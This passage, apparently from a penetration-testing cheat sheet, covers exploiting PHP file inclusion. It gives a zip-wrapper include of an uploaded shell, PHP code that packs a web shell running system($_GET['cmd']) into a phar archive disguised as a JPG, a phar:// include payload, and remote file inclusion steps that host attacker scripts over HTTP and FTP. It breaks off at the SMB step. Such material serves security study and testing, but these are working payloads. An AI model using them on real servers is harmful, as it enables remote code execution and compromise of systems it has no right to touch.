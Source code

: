     3. Include it using the zip wrapper (check upload location)

       ```
       zip://[PATH]/shell.jpg%23shell.php&cmd=id
       ```

       `%23` is `#` in URL encoding

  - if `phar` is enabled and **images** can be uploaded:

    1. Create a shell.php file

       ```php
       <?php
       $phar = new Phar('shell.phar');
       $phar->startBuffering();
       $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
       $phar->setStub('<?php __HALT_COMPILER(); ?>');
       
       $phar->stopBuffering();
       ```

    2. Compile it in a phar file

       ```bash
       php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
       ```

    3. Upload shell.jpg (check upload location)

    4. Include it with phar wrapper

       ```
       phar://[PATH]/shell.jpg%2Fshell.txt&cmd=id
       ```

- **RFI**:

  To verify, try to include a URL (first a local one, but not the vulnerable page itself, since it could cause a loop), and see if we can get its content.

  `allow_url_include` has to be enabled, apart from SMB.

  1. Write a script in the language of the web application

  2. Host and include the script

     - http:

       ```bash
       sudo python3 -m http.server <LISTENING_PORT>	# 80 or 443
       ```

     - ftp:

       ```bash
       sudo python -m pyftpdlib -p 21
       ```

     - smb - doesn't require `allow_url_include`:
